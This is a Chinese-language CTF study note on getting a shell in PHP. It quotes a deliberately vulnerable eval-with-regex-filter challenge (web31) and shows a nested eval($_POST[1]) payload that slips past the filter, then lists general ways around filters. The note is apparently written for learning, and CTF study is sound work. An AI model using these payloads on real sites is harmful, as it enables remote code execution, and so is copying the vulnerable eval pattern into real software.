 ## 通过**Nssctf round5**的一道题总结下自己的getshell

目前会的最多的是php的**getshell**
了解一点python的**getshell**
第三种就是通用的**bashshell**
其它待补充

## phpGetshell

**php最常见的就是eval+过滤**

### 套！

很实用的一种用法，当正则过滤实在过多无法绕过时就可考虑靠一层

> **web31**
>
> ```php
> <?php
> error_reporting(0);
> if(isset($_GET['c'])){
>     $c = $_GET['c'];
>     if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
>         eval($c);
>     }
>     
> }else{
>     highlight_file(__FILE__);
> }
> ```
>
> 过滤了空格，命令行函数可能直接用不了
>
> 可以嵌套一下
>
> **GET:**`?c=eval($_POST[1]);`
>
> **POST:**`1=phpinfo();`
>
> 没过滤就很轻松了

### 绕！

常见的过滤基本都已经有了对应的绕过方法
一般来说就是
1.找函数代替
2.绕过正则(超出正则匹配最大限度 数组变量 变量名前加空格)
**==**

### disabled!

